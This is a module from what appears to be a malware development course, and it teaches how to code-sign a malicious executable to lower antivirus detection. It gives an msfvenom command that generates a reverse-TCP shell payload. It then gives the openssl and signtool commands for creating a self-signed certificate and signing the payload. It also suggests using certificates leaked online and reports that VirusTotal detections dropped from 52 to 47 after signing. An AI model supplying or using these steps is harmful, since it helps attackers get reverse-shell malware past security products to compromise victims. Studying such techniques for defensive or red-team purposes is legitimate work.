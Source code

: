 32. Malware Binary Signing# [**32. Malware Binary Signing**](https://maldevacademy.com/modules/32)

## **Malware Binary Signing**

### **Introduction**

When a user attempts to download a legitimate executable file from the internet, it is often signed by the company as a way of proving to the user that it is a trustworthy executable. Although security solutions will still scan the executable, additional scrutiny would've been placed on it had the binary been unsigned.

This module walks through the steps required to sign a malicious binary which can increase its trustworthiness. The module will be demonstrating binary signing on an executable generated via Msfvenom: `msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.168.0.1 LPORT=4444 -f exe -o maldev.exe`

### **Testing Binary Detection Rate**

Before starting, the binary was uploaded to VirusTotal in order to see the detection rate before signing the binary. The detection rate is quite high with 52/71 vendors flagging the file as being malicious.

[![](32%20Malware%20Binary%20Signing%20fe21c309a829423fa32229958b372dac/vt-1.png)](32%20Malware%20Binary%20Signing%20fe21c309a829423fa32229958b372dac/vt-1.png)### **Obtaining a Certificate**

There are several ways to get a certificate:

* The most ideal way is to purchase the certificate from a trusted vendor such as [DigiCert](https://www.digicert.com/).
* Another possibility is to use a self-signed certificate. Although this will not be as effective as a trusted certificate, this module will prove that it can still have an impact on detection rates.
* The last option would be to find valid certificates that are leaked on the internet (e.g. on Github). Ensure no laws are broken by using these leaked certificates.

### **Generating a Certificate**

This demo will use the self-signed certificate route. This requires `openssl` which is pre-built into Kali Linux.

To create a certificate first generate the required `pem` files. The tool requires information to include inside the certificate.

`openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -sha256 -days 365`




[![](32%20Malware%20Binary%20Signing%20fe21c309a829423fa32229958b372dac/sign.png)](32%20Malware%20Binary%20Signing%20fe21c309a829423fa32229958b372dac/sign.png)Next, generate a `pfx` file using the `pem` files. The tool will ask for a key phrase to be entered.

`openssl pkcs12 -inkey key.pem -in cert.pem -export -out sign.pfx`

[![](32%20Malware%20Binary%20Signing%20fe21c309a829423fa32229958b372dac/pfx-creation.png)](32%20Malware%20Binary%20Signing%20fe21c309a829423fa32229958b372dac/pfx-creation.png)### **Signing The Binary**

Signing the binary requires `signtool.exe` which is part of Windows SDK. It can be installed [here](https://developer.microsoft.com/en-us/windows/downloads/windows-sdk/). Once that's done, the binary can be signed using the command below.

`signtool sign /f sign.pfx /p <pfx-password> /t http://timestamp.digicert.com /fd sha256 binary.exe`

Viewing the binary's properties will now show a "Digital Signature" tab which shows the details of the certificate that was used to sign the binary. It also shows a warning that the certificate is not trusted.

[![](32%20Malware%20Binary%20Signing%20fe21c309a829423fa32229958b372dac/maldev-properties.png)](32%20Malware%20Binary%20Signing%20fe21c309a829423fa32229958b372dac/maldev-properties.png)### **Testing Signed Binary Detection Rate**

The binary is re-uploaded to VirusTotal to check if there was an impact on the detection rate. Unsurprisingly, the number of security solutions that flagged the file dropped from 52 to 47. Initially, it may not appear as a massive drop in detection rate but it must be emphasized that no changes were made to the file besides signing it with a certificate.

[![](32%20Malware%20Binary%20Signing%20fe21c309a829423fa32229958b372dac/vt-2.png)](32%20Malware%20Binary%20Signing%20fe21c309a829423fa32229958b372dac/vt-2.png)